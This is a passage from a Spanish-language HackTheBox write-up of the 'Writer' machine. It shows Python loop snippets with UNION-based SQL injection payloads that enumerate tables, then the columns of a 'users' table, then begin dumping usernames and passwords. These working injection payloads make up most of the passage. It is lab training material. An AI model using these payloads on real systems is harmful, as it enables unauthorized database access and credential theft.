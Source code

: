 Acá ahora jugamos con la tabla `tables`, peeeeeero filtramos únicamente las tablas de la base de datos (la que tengamos en `table_schema`) que le indiquemos, en este caso `writer`, así extraería los `table_name` correspondientes a esa db:

```py
...
for row in range(101):·
    payload = f"admin' UNION ALL SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema='{db}' LIMIT {row},1),3,4,5,6;#"
...
```

> [plaYsQLi.py - show_tables()](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/writer/plaYsQLi.py#L94)

Ejecutamos y:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_sqliPY_tables.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Bien, tenemos la tabla donde se guardan las historias que vimos en la web, también partes del sitio y una con referencia a usuarios, inspeccionemos las columnas de esa tabla `users`.

### Extraemos las columnas de la tabla <u>users</u> de la db <u>writer</u> [💉](#web-sqli-columns) {#web-sqli-columns}

Ahora nos enfocamos en la tabla `columns`, pero de nuevo, únicamente queremos extraer las columnas de la base de datos (`table_schema`) `writer` y la tabla (`table_name`) `users`:

```py
...
for row in range(101):·
    payload = f"admin' UNION ALL SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_schema='{db}' AND table_name='{table}' LIMIT {row},1),3,4,5,6;#"
...
```

> [plaYsQLi.py - show_columns()](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/writer/plaYsQLi.py#L109)

Ejecutamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_sqliPY_columns.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Lo esperado, tenemos `username` y `password` como campos claramente llamativos, pues intentemos extraerlos.

### Extraemos la data en columnas de la tabla <u>users</u> - db <u>writer</u> [💉](#web-sqli-data) {#web-sqli-data}

Acá la consulta es más sencilla, únicamente le decimos que queremos extraer una o varias columnas (`username`) de una tabla (`users`) asociada a una base de datos (`writer`):

```py
...
for row in range(101):·
    payload = f"admin' UNION ALL SELECT 1,(SELECT {column} FROM {db}.{table} LIMIT {row},1),3,4,5,6;#"
...
```
